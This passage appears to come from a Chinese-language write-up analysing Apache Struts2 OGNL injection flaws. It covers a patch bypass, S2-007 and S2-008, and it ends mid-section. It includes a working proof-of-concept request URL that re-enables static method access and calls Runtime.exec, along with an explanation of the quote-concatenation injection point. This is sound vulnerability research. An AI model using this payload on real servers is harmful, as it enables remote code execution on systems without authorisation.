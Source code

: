 {{< figure src="/ox-hugo/2021-11-15_21-00-17_screenshot.png" >}}

可见修复代码主要引入控制静态方法调用开关 allowStaticMethodAccess 变量，以及用于
控制成员变量访问权限的 SecurityMemberAccess 类对象，然而这两个变量都可以通过
OGNL 表达式控制，所以补丁并没有实际效果

poc:

```text
login.action?('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003dfalse')(bla)(bla)&('\u0023_memberAccess.allowStaticMethodAccess\u003dtrue')(bla)(bla)&('\u0023_memberAccess.excludeProperties\u003d@java.util.Collections@EMPTY_SET')(bla)(bla)&('\u0023myret\u003d@java.lang.Runtime@getRuntime().exec(\'deepin-calculator\')')(bla)(bla)
```


## S2-007 {#s2-007}


### 影响范围 {#影响范围}

Struts 2.0.0 - Struts 2.2.3


### 漏洞描述 {#漏洞描述}

当配置了验证规则，且类型转换出错时，ConversionErrorInterceptor 类对产生错误的参
数值进行了不安全的字符串拼接，而造成了 OGNL 表达式注入

漏洞的入口类是
S2-007/web/WEB-INF/lib/xwork-core-2.2.3.jar!/com/opensymphony/xwork2/interceptor/ConversionErrorInterceptor.class

当发生类型转换错误时进入 ConversionErrorInterceptor#intercept 方法，在该方法中获
取导致错误的参数值，并在 getOverrideExpr 方法进行拼接

```java
protected Object getOverrideExpr(ActionInvocation invocation, Object value) {
    return "'" + value + "'";
}
```

可见攻击者可以闭合单引号注入 OGNL 表达式，使其返回值的形式为： `'' + (#xxxx) +
''`, 最后导致中间的表达式执行


## S2-008 {#s2-008}


### 影响范围 {#影响范围}

Struts 2.0.0 - Struts 2.3.17


### 漏洞描述 {#漏洞描述}

为了避免攻击者通过参数执行任意方法，xwork.MethodAccessor.denyMethodExecution 参
数的值默认为 true，且 SecurityMemberAccess.allowStaticMethodAccess 参数值默认为
false。而且从 Struts 2.2.1.1 开始，ParameterInterceptor 只允许以下格式的参数：
